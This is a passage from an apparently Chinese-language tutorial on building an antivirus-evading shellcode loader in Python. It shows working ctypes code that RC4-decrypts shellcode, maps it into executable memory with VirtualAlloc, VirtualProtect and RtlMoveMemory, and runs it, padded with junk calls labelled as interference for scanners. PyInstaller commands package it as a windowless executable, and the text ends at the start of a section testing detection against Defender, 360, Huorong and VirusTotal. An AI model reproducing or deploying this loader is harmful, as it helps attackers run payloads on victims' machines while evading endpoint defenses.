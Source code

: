 ```
# 解密shellcode
scode = bytearray(rc4(buf, 'decode', rcpw))
rc4(res2.text+res1.text,'encode',GenPassword(13))# 干扰代码

# 申请可读可写不可执行的内存
memHscode = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                                      ctypes.c_int(len(scode)),
                                                      ctypes.c_int(0x3000),
                                                      ctypes.c_int(0x40))
rc4(res1.text,'encode',GenPassword(13))# 干扰代码
buf = (ctypes.c_char * len(scode)).from_buffer(scode)
old = ctypes.c_long(1)

# 使用VirtualProtect将shellcode的内存区块设置为可执行，所谓的渐进式加载模式
VirtualProtect(memHscode, ctypes.c_int(len(scode)), 0x40, ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memHscode),
                                     buf,
                                     ctypes.c_int(len(scode)))
fuck=rc4(GenPassword(7),'encode',GenPassword(13))# 干扰代码
runcode = cast(memHscode, CFUNCTYPE(c_void_p))# 创建 shellcode 的函数指针
fuck=rc4(GenPassword(7),'encode',GenPassword(13))# 干扰代码
runcode()# 执行
```

0x07 利用 PyInstaller 编译
----------------------

1、不指定图标的编译方式

```
python2 PyInstaller.py --noconsole --onefile cs\cs.py
```

![](https://pic2.zhimg.com/v2-d24c9787fa91df667d8bfe3bbeed7741_r.jpg)![](https://pic2.zhimg.com/v2-208b2de562a6e2045941b57346af299d_r.jpg)

2、指定图标的编译方式

```
python2 PyInstaller.py --noconsole --icon cs\icon.ico --onefile cs\cs.py
```

![](https://pic2.zhimg.com/v2-6c0a6517dc17bd3fe85163e907726115_r.jpg)![](https://pic3.zhimg.com/v2-d4b58de08f61edcb74bdb17aa7443da6_r.jpg)

0x08 成果检验
---------

### 1、测试环境

【win10 专业版 + windows defender】【win7 企业版 + 360 全家桶 + 火绒】【微步云沙箱】【[http://virustotal.com](https://link.zhihu.com/?target=http%3A//virustotal.com)】

![](https://pic3.zhimg.com/v2-2fbcd76c751c5f899984f5d21ac2e426_r.jpg)

### 2、静态查杀
